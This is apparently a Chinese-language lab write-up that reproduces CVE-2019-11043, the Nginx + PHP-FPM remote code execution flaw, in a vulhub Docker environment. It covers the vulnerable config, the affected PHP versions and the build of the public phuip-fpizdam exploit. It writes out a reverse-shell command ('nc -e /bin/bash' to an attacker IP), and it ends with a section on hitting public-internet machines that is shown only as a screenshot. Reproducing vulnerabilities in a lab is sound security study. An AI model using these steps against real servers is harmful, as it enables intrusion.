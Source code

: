 # 漏洞描述

CVE-2019-11043 是一个远程代码执行漏洞，使用某些特定配置的 Nginx + PHP-FPM 的服务器存在漏洞，可允许攻击者远程执行代码。

向Nginx + PHP-FPM的服务器 URL发送 %0a 时，服务器返回异常。

该漏洞需要在nginx.conf中进行特定配置才能触发。具体配置如下：

``` shell
location ~ [^/]\.php(/|$) {

 ...

 fastcgi_split_path_info ^(.+?\.php)(/.*)$;

 fastcgi_param PATH_INFO $fastcgi_path_info;

 fastcgi_pass   php:9000;

 ...

}

```



攻击者可以使用换行符（％0a）来破坏`fastcgi_split_path_info`指令中的Regexp。 Regexp被损坏导致PATH_INFO为空，从而触发该漏洞。


# 影响范围

在 Nginx + PHP-FPM 环境下，当启用了上述 Nginx 配置后，以下 PHP 版本受本次漏洞影响，另外，PHP 5.6版本也受此漏洞影响，但目前只能 Crash，不可以远程代码执行：

 - PHP 7.0 版本 
 - PHP 7.1 版本 
 - PHP 7.2 版本 
 - PHP 7.3 版本
 
# 漏洞复现

使用 p 牛的 docker 环境进行复现：

[PHP-FPM 远程代码执行漏洞（CVE-2019-11043）](https://github.com/vulhub/vulhub/blob/master/php/CVE-2019-11043/README.zh-cn.md)


## 准备工作：安装 docker、golang 环境

``` shell
sudo apt-get install docker docker-compose
sudo apt install golang
```

## 搭建漏洞环境

``` shell
git clone https://github.com/vulhub/vulhub.git
cd vulhub/php/CVE-2019-11043 && docker-compose up -d
```

![title](https://leanote.com/api/file/getImage?fileId=5db12a84ab64413390000b2d)

启动环境之后，就可以看到漏洞环境的默认页面。在此为 http://127.0.0.1:8080/index.php。

![title](https://leanote.com/api/file/getImage?fileId=5db12b44ab64413195000b2a)

## 安装漏洞利用工具

``` shell
git clone https://github.com/neex/phuip-fpizdam.git
cd phuip-fpizdam
go get -v && go build
```

![title](https://leanote.com/api/file/getImage?fileId=5db116adab64413195000a9d)

![title](https://leanote.com/api/file/getImage?fileId=5db1239bab64413195000b07)

## 漏洞利用

![title](https://leanote.com/api/file/getImage?fileId=5db12cb3ab64413195000b35)


![title](https://leanote.com/api/file/getImage?fileId=5db12d04ab64413195000b36)


![title](https://leanote.com/api/file/getImage?fileId=5db12d2bab64413390000b34)

url 中空格不影响命令执行：

![title](https://leanote.com/api/file/getImage?fileId=5db12f46ab64413390000b35)

> p 牛友情提示：您应该注意，只有部分PHP-FPM子进程受到了污染，因此请尝试几次以执行该命令。

**反弹 shell:**

因为我用的是P牛的环境，里面没有 nc 命令。所以不能用 nc 的反弹 shell。

![title](https://leanote.com/api/file/getImage?fileId=5db134aaab64413390000b48)

给此docer容器装一个 nc：

p牛的环境有两个 docker 镜像，一个是nginx，一个是 php:

![title](https://leanote.com/api/file/getImage?fileId=5db137d9ab64413195000b61)

进入 nginx 的容器：
![title](https://leanote.com/api/file/getImage?fileId=5db135b1ab64413390000b4a)

![title](https://leanote.com/api/file/getImage?fileId=5db135ffab64413195000b5b)
![title](https://leanote.com/api/file/getImage?fileId=5db13627ab64413390000b4d)

如图就装好了。

`exit` 此容器。尝试在url里面 nc 我本地监听的端口：

![title](https://leanote.com/api/file/getImage?fileId=5db13ab1ab64413195000b70)

没有成功。

但是继续观察，可能是镜像不对。因为p牛封装的这个环境有两个 docker，刚刚都是在 nginx docker 镜像里面尝试的：

![title](https://leanote.com/api/file/getImage?fileId=5db137d9ab64413195000b61)

试试在php镜像里面装nc。毕竟、

![title](https://leanote.com/api/file/getImage?fileId=5db13baeab64413195000b76)


换镜像装 nc：

![title](https://leanote.com/api/file/getImage?fileId=5db14136ab64413195000b99)

![title](https://leanote.com/api/file/getImage?fileId=5db14153ab64413390000b7e)

![title](https://leanote.com/api/file/getImage?fileId=5db1418bab64413195000b9b)

然后 nc 连接成功：

![title](https://leanote.com/api/file/getImage?fileId=5db143baab64413390000b8d)


试下反弹 shell:

``` shell
nc -e /bin/bash 10.x.x.39 7777
```

反弹 shell 成功！

![title](https://leanote.com/api/file/getImage?fileId=5db142f6ab64413195000ba1)

## 科学提速

这个环境我下了很久没下下来，我之前一直在国外，对一些换源、换镜像不熟悉。

- **方法一：阿里云容器镜像加速器**

URL： https://cr.console.aliyun.com/cn-hangzhou/instances/mirrors

进去之后获取：

![title](https://leanote.com/api/file/getImage?fileId=5db128f1ab64413390000b2a)

然后配置 docker 文件：

![title](https://leanote.com/api/file/getImage?fileId=5db12913ab64413390000b2b)

`注`：上面的是阿里云，下面的是中科院。阿里云的更快，只用阿里云就行了。

然后 restart 一下 docker：

``` shell
sudo systemctl daemon-reload
sudo systemctl restart docker
```

然后就可以了！

参考链接：

[1] [镜像中心-镜像加速器](https://cr.console.aliyun.com/cn-hangzhou/instances/mirrors)
[2] [官方镜像加速 操作手册](https://help.aliyun.com/document_detail/60750.html)

重启 docker 之后，速度仿佛换了个 docker，很爽。

- **方法二：系统代理**

基于 http 协议的：

需要凭据：
``` shell
export http_proxy="http://用户名:密码@ip:端口号/"
export https_proxy="http://用户名:密码@ip:端口号/"
```
无需凭据：

``` shell
export http_proxy="http://ip:端口号/"
export https_proxy="http://ip:端口号/"
```

注意：这种命令行运行是临时的，要全局的话加入到 `etc/profile`。

基于 socks5 协议：

proxychains




# 打公网机器

![title](https://leanote.com/api/file/getImage?fileId=5db12266ab64413195000afd)





感谢 @图南、@鶇、@陌路黄昏、从心开始以及不愿意透露姓名的 @win 和 @404 大佬。233。


-----------

参考链接（有先后）：
[1] [PHP-FPM 远程代码执行漏洞（CVE-2019-11043）](https://github.com/vulhub/vulhub/blob/master/php/CVE-2019-11043/README.zh-cn.md)
[2] [neex/phuip-fpizdam](https://github.com/neex/phuip-fpizdam)
[] 【原理分析】 [Sec Bug #78599	env_path_info underflow in fpm_main.c can lead to RCE](https://bugs.php.net/bug.php?id=78599)
[] 【原理分析】[phuip-fpizdam/issues/1](https://github.com/neex/phuip-fpizdam/issues/1)
[1] [镜像中心-镜像加速器](https://cr.console.aliyun.com/cn-hangzhou/instances/mirrors)
[2] [官方镜像加速 操作手册](https://help.aliyun.com/document_detail/60750.html)

